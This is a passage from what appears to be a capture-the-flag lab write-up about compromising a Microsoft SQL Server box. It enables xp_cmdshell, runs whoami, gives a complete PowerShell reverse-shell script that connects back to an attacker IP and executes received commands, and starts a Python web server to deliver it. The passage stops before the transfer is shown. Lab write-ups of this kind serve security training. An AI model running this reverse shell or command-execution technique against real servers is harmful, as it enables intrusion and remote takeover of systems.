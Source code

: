 Using the _option_name_ 'Show Advanced Options', we observe a configuration called [`xp_cmdshell`](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which spawns a Windows command shell and passes in a string for execution.

```console
SQL> EXEC sp_configure 'xp_cmdshell', 1;
SQL> reconfigure;
```

To check if it works, we can try to execute a command.

```console
SQL> xp_cmdshell "whoami"
```
This outputs:

```console
output

--------------------------------------------------------------------------------

archetype\sql_svc

NULL
```
We can see that the user `archetype\sql_svc` is displayed again; this means that SQL Server runs with that user inside Windows. `NULL` appears, which means he doesn't have administrator permissions. 

To gain a reverse shell, we will use the following code:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.14",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "# ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()};
$client.Close()
```

We save the above code in a file `shell.ps1`{: .filepath} on our local machine.
> Remember to put your IP address.
{: .prompt-warning }


### Getting complete control (RCE)
---

Now we have to transfer the PowerShell script onto the server somehow.
For this, we will start a python web server in one window using the following command:

```console
$ python3 -m http.server 80
```
This command will start a webserver in your current working directory.

